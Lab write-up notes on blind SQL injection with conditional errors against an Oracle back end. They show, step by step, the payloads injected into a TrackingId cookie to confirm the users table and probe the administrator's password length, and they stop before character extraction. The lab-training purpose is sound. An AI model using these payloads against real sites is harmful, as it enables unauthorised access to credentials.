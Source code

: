 # Blind SQL injection with conditional errors
- Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database
- The possibilities depend largely on the configuration of the database and the types of errors you're able to trigger
- may be able to induce the application to return a specific error response based on the result of a boolean expression
- may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise blind SQL injection vulnerabilities into "visible" ones
- it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally,
- This involves modifying the query so that it will cause a database error if the condition is true
- but not if the condition is false
- Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message)
- allowing us to infer the truth of the injected condition
# Lab
- blind SQL injection vulnerability
- uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- the application does not respond any differently based on whether the query returns any rows
- If the SQL query causes an error, then the application returns a custom error message
- The database contains a different table called users, with columns called username and password
# Goal 
- find Administartor password
- log in as administartor
# Solving The lab
- Visit the front page of the shop
- intercept and modify the request containing the TrackingId cookie
- Modify the TrackingId cookie, appending a single quotation mark to it
```
TrackingId=xyz'
```
- we see internal server error
- Now change it to two quotation marks and the error disappears
- to confirm that the server is interpreting the injection as a SQL query ,that the error is a SQL syntax error as opposed to any other kind of error
- first need to construct a subquery using valid SQL syntax
```
TrackingId=xyz'||(SELECT '')||'
```
- query still appears to be invalid maybe we are dealing with oracle db so we need to inserf from caluse
```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```
- query look valid and we got a 200 response
- now submitting an invalid query while still preserving valid SQL syntax
```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```
- we got internal server error
- can use this error response to infer key information about the database. For example, in order to verify that the users table exists
```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
- WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row
- we confirmed that users table exists because we got internal server error
- now exploit this behavior to test conditions
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
- an error message is received
- Now change it
```
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
- the error disappears so we can trigger an error conditionally on the truth of a specific condition
- The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false.
- former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true
- can use this behavior to test whether specific entries exist in a table
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- in sql the from clause executes first so in the above query it checks if the administartor is the users db then the select statment executes and we should get an error
- now to determine how many characters are in the password of the administrator user.
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- and iterate the process till we got 20 on 21 no error displays which means the password is shorter than 21
